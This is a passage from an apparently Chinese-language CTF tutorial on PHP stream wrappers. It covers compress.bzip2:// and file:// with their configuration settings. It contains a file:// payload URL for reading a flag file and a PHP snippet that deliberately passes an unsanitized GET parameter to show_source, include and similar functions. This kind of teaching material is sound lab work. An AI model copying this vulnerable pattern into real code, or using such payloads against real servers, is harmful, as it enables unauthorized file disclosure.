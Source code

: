 环境：

- allow_url_fopen ：off/on
- allow_url_include：off/on

用法

```
compress.bzip2://file.bz2
```

不常用，用来打开.bz2压缩文件用法与其他两个压缩协议一样

## file://伪协议

环境：

- allow_url_fopen ：off/on
- allow_url_include：off/on

用法：

```
http://10.10.10.1/ctf/input.php?a=file://E:/phpstudy_pro/WWW/ctf/flag.php
```

例子：

```php
<?php
    highlight_file(__FILE__);
    echo $_GET[a];
    // include($_GET[a]);
	show_source($_GET[a]);
	// highlight_file($_GET[a]);
	// echo file_get_contents($_GET[a]);
	// include_once($_GET[a]);
	// require($_GET[a]);
	// require_once($_GET[a]);
	// $handle = fopen($_GET[a], 'r');while (($line = fgets($handle)) !== false) {echo $line;}if(!fclose($handle)){die('Failed to close file');}
	// $contents = file_get_contents($_GET[a]);echo $contents;
	// print_r(file($_GET[a]));
```


